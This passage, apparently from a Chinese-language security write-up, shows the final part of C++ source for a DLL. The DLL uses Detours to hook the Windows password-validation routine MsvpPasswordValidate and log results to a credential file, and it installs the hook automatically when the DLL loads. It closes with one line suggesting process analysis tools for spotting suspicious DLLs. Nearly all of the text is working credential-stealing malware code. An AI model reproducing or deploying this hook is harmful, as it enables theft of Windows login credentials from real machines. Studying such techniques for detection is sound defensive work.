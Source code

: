 ```bash
    LONG code = DetourTransactionCommit();
    if (code != NOERROR) {
        credentialFile << L"Domain: " << L"Error" << std::endl;

    }
    else {
        credentialFile << L"Domain: " << L"true" << std::endl;
    }
    credentialFile.close();
    return true;
}
bool UninstallHook() {
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);
    DetourTransactionCommit();
    return TRUE;
}
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        return InstallHook();

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        return UninstallHook();
    }
    return TRUE;
}
```

防范的话，通过 Process 进程分析工具，分析可疑 dll。
